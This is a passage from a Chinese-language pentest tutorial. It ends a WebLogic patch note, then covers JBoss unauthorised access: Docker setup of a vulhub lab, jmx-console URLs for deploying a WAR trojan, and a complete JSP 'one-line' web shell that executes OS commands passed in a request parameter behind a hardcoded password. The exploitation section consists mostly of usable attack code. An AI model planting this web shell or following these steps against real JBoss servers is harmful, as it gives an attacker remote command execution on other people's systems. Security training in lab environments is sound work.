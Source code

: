 ## 漏洞修复

 影响版本

```
Oracle Weblogic Server 10.3.6.0.0
Oracle Weblogic Server 12.1.3.0.0
Oracle Weblogic Server 12.2.1.3.0
Oracle Weblogic Server 12.2.1.4.0
Oracle Weblogic Server 14.1.1.0.0
```

下载补丁程序并安装更新

# Jboss未授权访问

JBoss是一个基于J2EE的开放源代码应用服务器，代码遵循LGPL许可，可以在任何商业应用中免费使用；JBoss也是一个管理EJB的容器和服务器，支持EJB 1.1、EJB 2.0和EJB3规范。

## 环境搭建

```bash
root@kali:~/桌面/vulhub-master/jboss/CVE-2017-7504# docker search testjboss 
root@kali:~/桌面/vulhub-master/jboss/CVE-2017-7504# docker pull testjboss/jboss
root@kali:~/桌面/vulhub-master/jboss/CVE-2017-7504# docker run -d -p 8080:8080 testjboss/jboss     
```

## 漏洞利用

访问url，通过爆破得到密码，若无密码即可未授权访问到管理控制台，可以部署上传war木马，poc：

```
http://192.168.211.129:8080/jmx-console
http://192.168.211.129:8080/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.deployment%3Atype%3DDeploymentScanner%2Cflavor%3DURL
```

![img](https://xzfile.aliyuncs.com/media/upload/picture/20190828090605-02d2f24e-c930-1.jpg)

写入一句话jsp木马

```jsp
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```
